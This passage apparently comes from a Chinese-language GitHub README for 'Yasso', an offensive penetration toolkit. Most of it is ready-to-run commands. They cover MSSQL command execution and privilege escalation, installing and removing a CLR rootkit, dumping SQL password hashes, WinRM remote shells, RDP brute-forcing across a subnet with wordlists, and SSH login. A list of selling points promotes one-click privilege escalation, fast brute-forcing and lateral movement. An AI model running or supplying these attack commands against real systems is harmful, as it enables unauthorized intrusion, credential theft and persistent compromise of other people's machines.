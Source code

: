 ![image](https://user-images.githubusercontent.com/74412075/148240369-14cc4c77-e4f8-4fd1-8faa-e716852d3ed8.png)

mssql 的命令执行提权和WarSQLKit-clr提权Rookit安装卸载执行功能

```
Yasso.exe crack mssql --user sa --pass "admin@123" -c whoami --hostname 192.168.248.128 
Yasso.exe crack mssql --user sa --pass "admin@123" -c whoami --hostname 192.168.248.128 --method 2
Yasso.exe crack mssql --user sa --pass "admin@123" -c whoami --hostname 192.168.248.128 --inkit 1
Yasso.exe crack mssql --hostname 192.168.248.128 --user sa --pass "admin@123" --cld "sp_getSqlHash"
Yasso.exe crack mssql --hostname 192.168.248.128 --user sa --pass "admin@123" --cld "whoami"
Yasso.exe crack mssql --user sa --pass "admin@123" -c whoami --hostname 192.168.248.128 --unkit 1
```

![image](https://user-images.githubusercontent.com/74412075/148234003-8e2ceb59-95c5-4fc3-ad65-501294ddce6b.png)

winrm 的命令执行和交互shell

```
Yasso.exe crack winrm --hostname 192.168.248.128 -c "ipconfig /all" --pass "930517" --user "administrator"
```

![image](https://user-images.githubusercontent.com/74412075/148234337-80fabcef-a333-402d-8e97-e694b89119c0.png)

```
Yasso.exe crack winrm --hostname 192.168.248.128 --shell --pass "930517" --user "administrator"
```

![image](https://user-images.githubusercontent.com/74412075/148234486-037aaf56-fe11-40a0-9781-82b537ef9a37.png)

grdp的强大爆破功能

```
Yasso.exe crack grdp --domain "kilon.local" --pd .\pass.txt --ud .\user.txt -H 192.168.248.128/24 --crack
```

![image](https://user-images.githubusercontent.com/74412075/148234733-fbdc34e7-c73e-49f7-8942-3a1863915213.png)

ssh的交互式登陆

```
Yasso.exe crack ssh --hostname 192.168.248.219 --user root --pass kali
```

![image](https://user-images.githubusercontent.com/74412075/148235003-a72116d3-df9b-4b4e-9523-21d5f8b30e1b.png)

## 工具优势🤡

- 命令简单方便，模块功能调用简洁明了，方便拓展和添加各种新功能
- 集合了大量的常用功能，使得Yasso并不像常规的扫描器，而是作为工具集
- 强大的SQL渗透辅助功能，提供了常见的redis，mysql，mssql等数据库的一键提权和数据库操作
- 强大的并发爆破，使得大字典能获取更快的速度
- rdp和winrm的强势加入，使得内网横向更加迅速和方便快捷

## 免责声明🧐
